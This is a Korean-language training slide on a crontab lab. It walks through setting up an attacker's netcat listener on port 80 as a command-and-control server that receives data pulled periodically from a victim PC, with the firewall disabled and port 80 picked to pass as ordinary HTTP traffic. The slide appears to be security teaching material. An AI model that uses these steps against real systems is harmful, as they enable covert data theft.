

crontab 설정 실습

- 악의적 해커 PC
| 시나리오 : 악의적 해커가 희생자의 PC에서 중요 자료를 주기적으로 자료를 빼내기 위한 설정 |
| --- |
| # yum –y install nc (nc : 네트워크 관련 프로그램) # rpm –qa |grep ncat- (nc설치여부 확인) # ifconig |grep inet (해커 ip확인 할 것!) ipv4 192.168.100.131 # systemctl stop firewalld ★해커 서버 방화벽(F/W) 꼭 꺼야함!★ #nc –l 80 (listening 서버로 만듦, 80번 포트이용) (backtrack 설정 : #nc –l –p 80 ) |
※ 해커가 목적지 포트를 80번으로 하는 이유 :
 ->일반적인 HTTP(port:80) 접속 트래픽으로 위장하여 관리자가 쉽게 알아채지 못하게 하기 위함)
| 새 터미널 열어서 서버가 listen 상태인지 확인 |
| --- |
| #netstat -antup | grep :80 tcp 0 0.0.0.0:80 0.0.0.0:\* Listen 1949/nc (->1949nc라는 프로그램이 80포트를 열고 있음 확인 => C&C서버역할) |
※ C&C서버 (Command & Control)
일반적으로 감염된 좀비PC가 해커가 원하는 공격을 수행하도록 원격지에서 명령을 내리거나 악성코드를 제어하는 서버

crontab 설정